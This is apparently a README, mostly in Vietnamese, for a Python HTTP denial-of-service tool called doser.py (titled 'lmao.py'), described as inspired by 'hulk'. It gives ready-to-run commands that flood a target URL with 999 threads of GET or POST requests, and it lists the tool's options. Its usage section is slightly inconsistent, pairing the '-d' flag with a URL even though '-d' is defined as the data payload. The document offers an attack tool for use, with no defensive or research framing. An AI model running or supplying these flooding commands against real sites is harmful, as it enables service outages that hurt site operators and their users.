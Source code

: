 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ hulk nhưng có nhiều chức năng hơn) được viết bằng Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
  Nếu bạn chọn <g> thì sẽ là : python doser.py -t 999 -g 'URL'
    Nếu bạn chọn <p> thì sẽ là : python doser.py -t 999 -p 'URL'
      Nếu bạn chọn <d> thì sẽ là : python doser.py -t 999 -d 'URL'

Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# BY:
Duong Quang Truong :)
